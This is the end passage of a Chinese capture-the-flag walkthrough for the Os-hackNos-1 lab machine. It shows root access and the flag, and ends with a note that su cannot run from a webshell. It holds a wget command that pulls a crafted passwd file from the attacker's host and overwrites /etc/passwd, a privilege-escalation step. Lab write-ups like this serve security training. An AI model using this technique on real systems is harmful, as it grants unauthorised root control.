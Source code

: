 ```
wget http://192.168.5.129:8000/passwd -O /etc/passwd
```

然后在已有的shell中进行切换用户

![image-20230628232454442](Os-hackNos-1.assets\image-20230628232454442.png)



```

root@hackNos:/var/www# cd ~
cd ~
root@hackNos:~# ls
ls
root.txt
root@hackNos:~# cat root.txt
cat root.txt
    _  _                              _   
  _| || |_                           | |  
 |_  __  _|______  _ __  ___    ___  | |_ 
  _| || |_|______|| '__|/ _ \  / _ \ | __|
 |_  __  _|       | |  | (_) || (_) || |_ 
   |_||_|         |_|   \___/  \___/  \__|
                                          
                                          

MD5-HASH : bae11ce4f67af91fa58576c1da2aad4b

Author : Rahul Gehlaut

Linkedin : https://www.linkedin.com/in/rahulgehlaut/

Blog : www.hackNos.com

```





## 注意事项

使用菜刀等webshell不能切换，因为su命令必须在终端中执行

su: must be run from a terminal

![image-20230628232523339](Os-hackNos-1.assets\image-20230628232523339.png)


